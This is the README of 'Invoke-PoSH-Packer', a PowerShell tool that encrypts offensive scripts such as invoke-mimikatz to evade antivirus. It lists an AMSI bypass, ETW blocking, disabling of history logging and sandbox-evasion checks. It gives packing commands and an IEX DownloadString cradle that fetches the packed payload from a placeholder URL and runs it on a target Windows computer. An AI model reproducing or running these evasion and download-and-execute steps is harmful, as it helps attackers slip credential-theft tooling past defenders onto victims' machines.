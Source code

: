 ### Invoke-PoSH-Packer.ps1
--------------------------------------
'Invoke-PoSH-Packer' allows to pack and encrypt offensive PowerShell scripts in order to bypass AV solutions such as Windows Defender.

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass (pseudo random)
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell script is not run on a domain-joined Windows computer 
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - Step 1. Generate a packed & encrypted version of a PowerShell script (e.g. invoke-mimikatz.ps1, invoke-rubeus.ps1) stored locally or on a remote web server
```
PS C:\> Import-Module ./Invoke-PoSH-Packer.ps1
PS C:\> Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 
--- or ---
PS C:\> Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 -sandbox
``` 
```
PS C:\> Import-Module ./Invoke-PoSH-Packer.ps1
PS C:\> Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1  
--- or ---
PS C:\> Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 -sandbox
```
  - Step 2. Download & execute the packed & encrypted PowerShell script on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-script.ps1'); Invoke-method-of-your-original-script
--- or (not recommended) ---
PS C:\> WGET -URI https://URL/Packed-script.ps1 -OutFile C:\temp\Packed-script.ps1
PS C:\> Import-Module C:\temp\Packed-script.ps1
PS C:\> Invoke-method-of-your-original-script
``` 

#### LICENSE
  - GNU General Public License v3.0
